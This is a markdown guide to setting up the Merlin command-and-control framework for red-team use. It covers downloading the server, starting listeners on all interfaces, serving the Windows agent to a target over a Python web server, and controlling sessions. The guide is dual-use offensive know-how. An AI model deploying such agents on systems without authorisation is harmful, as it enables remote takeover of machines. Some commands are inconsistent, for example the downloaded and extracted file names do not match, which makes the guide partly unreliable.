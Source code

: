 #merlin #exploit #redteaming #c2
# Merlin C2 Framework Setup and Usage Guide

This guide provides a step-by-step methodology for downloading, installing, configuring, and using the Merlin C2 framework. By following this documentation, you will be able to set up and run the Merlin Server, configure listeners, deploy agents, and interact with them effectively.

---

## Step 1: Downloading and Extracting Merlin C2

1. **Download the Latest Version of Merlin**:
   - Go to the [Merlin GitHub Releases Page](https://github.com/Ne0nd0g/merlin/releases) to download the latest version of the framework.
   - Use the following `wget` command to download the server file:
     ```bash
     wget https://github.com/Ne0nd0g/merlin/releases/download/v2.1.3/merlinServer-Darwin-x64.7z
     ```
   
2. **Extract the Compressed File**:
   - After the file has been downloaded, extract it using the `7z` tool.
   - Use the following command to extract the file:
     ```bash
     7z x merlinServer-Linux-x64-v2.1.3.7z
     ```
   - Note: The extracted files are password protected. The password for extraction is **merlin**.

---

## Step 2: Running the Merlin Server

1. **Start the Merlin Server**:
   - Navigate to the folder where the server has been extracted and run the Merlin server with the following command:
     ```bash
     ./<name_of_server_file>
     ```
   - Example:
     ```bash
     ./merlinServer
     ```

1. **Server is Running**:
   - Once the server is running, navigate to the directory `/data/bin` to access the compiled Merlin CLI and Agent files:
     ```bash
     cd /data/bin
     ```

3. **Start the Merlin CLI**:
   - Run the Merlin CLI in the `/data/bin` directory with the following command:
     ```bash
     ./merlinCLI
     ```



**Start the Listeners**:
   - With the CLI running, initiate the listeners using the command:
     ```bash
     listeners
     ```



->  **Configure Merlin to Listen on a All  IP**'s:
   - If you wish to run Merlin on a global IP address (allowing access from any device in the network), follow these steps:
   
     - In the terminal where the Merlin CLI is running, execute the following commands:
       1. Set the interface to `0.0.0.0` (to listen on all interfaces):
          ```bash
          set Interface 0.0.0.0
          ```
       2. Set the port to `8443` (or any other port of your choice):
          ```bash
          set port 8443
          ```
       3. Start the listener:
          ```bash
          start
          ```
       4. Use the `show` command to verify the listener’s status:
          ```bash
          show
          ```

---

## Step 3: Running the Merlin Agent

### **---on kali linux ---**

1. **Running the Agent**:
   - Open a new terminal window and run the Merlin agent with the default URL pointing to the server:
     ```bash
     ./merlinAgent -url http://127.0.0.1:443
     ```

### **---on Windows ---**
send the windows agent to the windows machine .

use python server for sharing the windows agent to the windows machine.
```bash
python3 -m http.server {port no}
```

- access the server from windows browser and download the windows marlin agent.
- go to the folder where agent is downloaded open cmd in that directory.
- run the merlin agent 
```
.\<windoesmerlinagentname> -url <https://ip of machine where server is running>: port no
```

![[Pasted image 20241113141234.png]]


3. **Listing the Agents**:
   - To view all running agents, use the `sessions` command:
     ```bash
     sessions
     ```

---

## Step 4: Interacting with the Agents

1. **Interacting with an Agent**:
   - To interact with a specific agent, use the `interact` command followed by the agent's ID (listed in the `sessions` output):
     ```bash
     interact <agent_id>
     ```

2. **Available Commands**:
   - After successfully interacting with the agent, type `help` to see a list of available commands that you can execute on the agent machine.

---

This guide provides a clear and structured approach for anyone to follow and set up the Merlin C2 framework. Ensure that you follow each step carefully and verify your setup at each stage to avoid any issues.

Feel free to add screenshots at the specified locations (e.g., "screenshot 1", "screenshot 2", etc.) to provide visual aid for users.